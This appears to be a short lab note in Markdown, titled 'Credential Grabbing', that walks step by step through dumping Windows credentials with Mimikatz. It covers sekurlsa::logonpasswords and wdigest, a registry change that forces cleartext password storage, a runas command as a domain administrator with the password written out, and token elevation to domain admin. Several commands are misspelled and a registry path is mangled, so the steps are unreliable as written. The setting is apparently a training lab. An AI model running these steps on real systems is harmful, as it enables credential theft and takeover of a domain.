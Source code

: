 # Credential Grabbing
> remoted into the client as...someone local/domain? Admin?
> 
1. Fucking mimikatz basic bitches.
2. Powershell:
`cd c:\Users\Public\Desktop\LAB_FILES\assets`
3. `expand-archive mimikatz_trunk.zip`
4. Run mimikatz meow.
   1. `cd mimikatz_trunk\x64`
   2. `.\mimikatz.exe`
   3. In Mimikatz terminal:
      1. `mimikatz # privilege::debug`
      2. `mimikatz # log m.txt`
      3. `mimikatz # sekurlsa::logonpasswords`
      4. `mimikatz # sekurlsa::wdigest`
5. In a separate powershell window:
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 1
runas /user:wheel\Administrator
pw:12qwaszx!@QWASZX
```
>runas is done to actually store the password

6. Back in mimikatz:
   1. `mimikatz # sekursla::logonpasswords`
   2. `sekursla::wdigest`
>Yay clear text pw!

8. Elevate
`mimkatz # token::elevate /domainadmin`